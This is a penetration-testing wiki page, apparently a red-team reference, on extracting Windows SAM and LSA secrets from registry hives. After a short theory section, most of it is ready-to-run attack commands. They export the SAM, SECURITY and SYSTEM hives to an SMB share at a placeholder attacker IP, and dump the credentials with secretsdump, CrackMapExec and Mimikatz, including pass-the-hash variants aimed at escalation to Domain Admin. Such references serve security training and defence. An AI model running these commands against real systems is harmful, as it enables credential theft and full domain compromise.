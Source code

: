 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive     | Details                                                        | Format or credential material                                                                                                                                                                                               |
| -------- | -------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SAM      | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes                                                                                                                                                                                                             |
| SECURITY | stores domain cached credentials (referred to as LSA secrets)  | <p>Plaintext passwords</p><p>LM or NT hashes</p><p>Kerberos keys (DES, AES)</p><p>Domain Cached Credentials (DCC1 and DCC2)</p><p>Security Questions (<code>L$</code><em><code>SQSA</code></em><code>&#x3C;SID></code>)</p> |
| SYSTEM   | contains enough info to decrypt SAM secrets and LSA secrets    | N/A                                                                                                                                                                                                                         |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material                      | Subsequent attacks                                                                                                                                                                                            |
| ---------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords                      | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md) or [silver tickets](../../kerberos/forged-tickets.md)           |
| LM and NT hashes                         | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash)     | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets.md)                                                                       |
| Kerberos keys (DES, AES)                 | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets.md)                                                                            |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md)                                                                                                                                                                         |

## Practice

### Exfiltration

{% tabs %}
{% tab title="UNIX-like" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../../../a-d/movement/domain-settings/builtin-groups/) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md). _(At the time of writing, 17th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1257) _is pending)._

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```

```bash
# Start an SMB share
$ smbserver.py -smb2support "someshare" "./" -user veresk -password veresk

# Mount the smb share with
PS> New-PSDrive -Name 'someshare' -PSProvider FileSystem -Credential $cred -Root '\\10.11.55.3\someshare'
PS> dir someshare:
```
{% endtab %}

{% tab title="Live Windows" %}
When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

{% hint style="info" %}
Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](broken-reference) like demonstrated for an NTDS export.
{% endhint %}
{% endtab %}

{% tab title="Down Windows" %}
When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```
{% endtab %}
{% endtabs %}

### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene** secretsdump and crackmapexec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.
{% endhint %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}
